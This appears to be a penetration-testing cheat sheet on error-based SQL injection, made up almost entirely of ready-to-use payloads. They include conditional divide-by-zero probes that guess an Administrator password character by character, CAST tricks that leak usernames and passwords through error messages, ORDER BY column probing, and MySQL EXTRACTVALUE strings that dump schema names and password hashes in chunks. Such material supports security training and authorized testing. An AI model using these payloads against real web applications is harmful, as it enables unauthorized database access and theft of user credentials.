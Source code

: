 ### Error

{% code overflow="wrap" fullWidth="true" %}
```bash
https://swisskyrepo.github.io/PayloadsAllTheThings/SQL%20Injection/MySQL%20Injection/#mysql-error-based
https://securityidiots.com/Web-Pentest/SQL-Injection/Error-Based-Injection-Subquery-Injection.html

# Error-based SQL injection
Use error messages to either extract or infer sensitive data from the database, even in blind contexts
You can modify the query so that it causes a database error only if the condition is true or false
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
If the error causes a difference in the app HTTP response, use this to determine if the injected condition is true.
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
# Extracting sensitive data via verbose SQL error messages
Unterminated string literal started at position 52 in SQL SELECT * FROM tracking WHERE id = '''. Expected char'
# Induce the app to generate an error message that contains some of the data that is returned by the query
# You can use the CAST() function to achieve this. It enables you to convert one data type to another.
CAST((SELECT example_column FROM example_table) AS int)
ERROR: invalid input syntax for type integer: "Example data"'
# Using CAST function to convert data types so it triggers an error
TrackingId=x'||CAST((SELECT username FROM users LIMIT 1) AS int)--;
TrackingId=x'||CAST((SELECT password FROM users LIMIT 1) AS int)--;

' or 1=1 -- //
' or 1=1 in (select @@version) -- //
' or 1=1 in (SELECT password FROM users) -- //
SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version))
-1 order by 3 -- -
-1 and 1=1 order by 4 -- -
' order by 100-- -
'ORDER BY 200-- - # to detect error asking for lots of columns


# EXTRACTVALUE
testing,EXTRACTVALUE(1535,CONCAT(0x5c,0x717a626271,(SELECT (ELT(1535=1535,1))),0x717a6b7671))
testing;SELECT EXTRACTVALUE(1,CONCAT(0x5c,(select user()),0x5c))#
admin' AND EXTRACTVALUE(1,concat(0x0a,(select SCHEMA_NAME from information_schema.schemata)))--
admin' AND EXTRACTVALUE(1,concat(0x0a,(select SCHEMA_NAME from information_schema.schemata limit 1)))--
admin' AND EXTRACTVALUE(1,concat(0x0a,(select SCHEMA_NAME from information_schema.schemata limit 0,1)))--
admin' AND EXTRACTVALUE(1,concat(0x0a,(select SCHEMA_NAME from information_schema.schemata limit 1,1)))--
# In case we have a char limitation that bothers us while retrieving hashes for example
admin' AND EXTRACTVALUE(1,concat(0x0a,(select SUBSTR(password,1,20) from users limit 1,1)))-- -
admin' AND EXTRACTVALUE(1,concat(0x0a,(select SUBSTR(password,21,40) from users limit 1,1)))-- -
```
{% endcode %}
